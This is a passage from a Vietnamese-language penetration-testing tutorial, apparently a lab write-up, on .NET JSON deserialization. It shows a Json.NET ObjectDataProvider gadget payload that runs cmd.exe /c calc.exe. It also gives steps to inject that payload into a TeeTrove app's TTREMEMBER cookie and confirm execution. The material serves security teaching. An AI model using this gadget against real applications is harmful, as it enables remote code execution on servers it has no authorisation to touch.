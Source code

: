   ```csharp
                   TypeNameHandling = TypeNameHandling.All
               };

               string json = JsonConvert.SerializeObject(odp, settings);
               Console.WriteLine(json);  // In payload ra để sao chép
           }
       }
   }
   ```

3. **Sửa đổi Payload và Kiểm tra:**
   Ban đầu, chúng ta gặp lỗi do tên phương thức không hợp lệ (`Start1`). Sau khi sửa phương thức về `Start`, chúng ta có thể tạo ra đối tượng tuần tự hóa chính xác.

4. **Payload Cuối Cùng:**
   Payload độc hại cuối cùng sẽ như sau:
   ```json
   {
       "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
       "ObjectType": "System.Diagnostics.Process",
       "MethodParameters": {
           "$type": "System.Object[]",
           "$values": [
               "C:\\Windows\\System32\\cmd.exe",
               "/c calc.exe"
           ]
       },
       "MethodName": "Start"
   }
   ```

   Payload này, khi được chèn vào cookie `TTREMEMBER`, sẽ thực thi **calc.exe** khi được tuần tự hóa ngược.

---

#### **Khai thác Lỗ Hổng**

1. **Tiêm Cookie Độc Hại:**
   - Đăng nhập vào website TeeTrove với tài khoản như `pentest:pentest`.
   - Chọn tùy chọn "Remember Me".
   - Thay thế giá trị của cookie `TTREMEMBER` bằng payload đã tạo.
   - Đăng xuất và quan sát ứng dụng, bạn sẽ thấy **calc.exe** được mở ra khi cookie được tuần tự hóa ngược bởi server.

2. **Kiểm tra Khai thác:**
   Dùng công cụ **dnSpy** để xác nhận rằng đối tượng **ObjectDataProvider** đã được tuần tự hóa ngược chính xác. Bằng cách quan sát quá trình trong **Process Explorer**, bạn có thể xác nhận rằng một tiến trình mới (ví dụ: **notepad.exe**) đã được sinh ra từ việc khai thác này.

---

# 7. Ví dụ 2: XML
### **Tìm hiểu lỗ hổng deserialization trong XML**
